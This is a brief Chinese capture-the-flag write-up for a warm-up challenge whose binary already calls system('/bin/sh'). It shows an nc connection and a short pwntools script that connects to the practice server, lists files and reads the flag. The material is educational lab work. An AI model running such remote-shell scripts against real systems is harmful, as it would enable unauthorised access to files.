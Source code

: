 # 知识点

签到题，测试nc链接。



# 题目分析

拖入IDA反编译后发现直接调用了system("/bin/sh")函数。



方法一：

linux命令行直接 nc xxx.xxx.xxx.xxx xxxx 连接成功后直接cat flag即可。



方法二：编写Exp

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = remote('node4.buuoj.cn', 28698)

io.sendline('ls')
io.sendline('cat flag')

io.interactive()
```

